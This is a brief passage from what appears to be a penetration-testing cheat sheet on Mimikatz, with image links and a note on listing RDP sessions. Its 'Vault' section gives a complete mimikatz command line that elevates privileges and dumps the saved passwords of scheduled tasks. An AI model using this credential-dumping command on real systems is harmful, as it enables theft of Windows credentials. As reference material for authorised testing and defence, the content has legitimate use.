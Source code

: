 [![Mimikatz-TS-MultiRDP](.gitbook/assets/1663772493.png)](.gitbook/assets/1663772493.png)

**TS::Sessions** – List TS/RDP sessions.

![](.gitbook/assets/1663772494.png)

### Vault

`mimikatz.exe "privilege::debug" "token::elevate" "vault::cred /patch" "exit"` - Get passwords of scheduled tasks

\
\
\\

